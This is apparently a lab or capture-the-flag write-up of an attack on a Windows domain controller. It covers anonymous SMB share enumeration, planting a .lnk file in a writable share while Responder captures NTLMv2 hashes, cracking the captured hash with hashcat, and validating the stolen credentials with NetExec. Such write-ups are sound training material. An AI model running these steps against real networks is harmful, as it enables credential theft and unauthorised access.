 There are three different directories that we can attack.

```bash
smbclient -U delegate.vl\\anonymous -N //10.10.114.160/share -c ls
  finance                             D        0  Thu Feb 17 11:19:34 2022
  software                            D        0  Thu Feb 17 11:19:12 2022
  transfer                            D        0  Thu Feb 17 14:00:35 2022
```

The first two are empty but the third one contains three usernames that we should take note of.

```bash
smbclient -U delegate.vl\\anonymous -N //10.10.114.160/share -c "ls transfer/"
  claire.pope                         D        0  Thu Feb 17 11:21:35 2022
  diana.pope                          D        0  Thu Feb 17 11:21:19 2022
  julia.wong                          D        0  Thu Feb 17 11:24:39 2022
```

Started the Responder listener.

```bash
sudo responder -I tun0 -v
```

At this point, I tried to poison with a multitude of file extensions but if I’m not wrong this is the command-line that worked.

```bash
smbclient -U delegate.vl\\anonymous -N //10.10.114.160/share -c "cd transfer; put dusk.lnk"   
putting file dusk.lnk as \transfer\dusk.lnk (5.3 kb/s) (average 5.3 kb/s)
```

<img src="/assets/img/breach/Untitled 1.png" alt="Untitled 1.png" style="width:800px;">

The captured hash was a weak password so we could crack it.

```bash
hashcat -m 5600 ntlmv2.hash /usr/share/wordlists/rockyou.txt
JULIA.WONG::BREACH:1cb9df7b72595783:cb3468c20c0eec8...:<REDACTED>
```

NetExec confirms that the credentials are valid.

```bash
netexec smb 10.10.114.160 -u Julia.Wong -p <REDACTED> --shares
SMB         10.10.114.160   445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
SMB         10.10.114.160   445    BREACHDC         [+] breach.vl\Julia.Wong:<REDACTED> 
SMB         10.10.114.160   445    BREACHDC         [*] Enumerated shares
SMB         10.10.114.160   445    BREACHDC         Share           Permissions     Remark
SMB         10.10.114.160   445    BREACHDC         -----           -----------     ------
SMB         10.10.114.160   445    BREACHDC         ADMIN$                          Remote Admin
SMB         10.10.114.160   445    BREACHDC         C$                              Default share
SMB         10.10.114.160   445    BREACHDC         IPC$            READ            Remote IPC
SMB         10.10.114.160   445    BREACHDC         NETLOGON        READ            Logon server share 
SMB         10.10.114.160   445    BREACHDC         share           READ,WRITE      
SMB         10.10.114.160   445    BREACHDC         SYSVOL          READ            Logon server share 
SMB         10.10.114.160   445    BREACHDC         Users           READ            
```
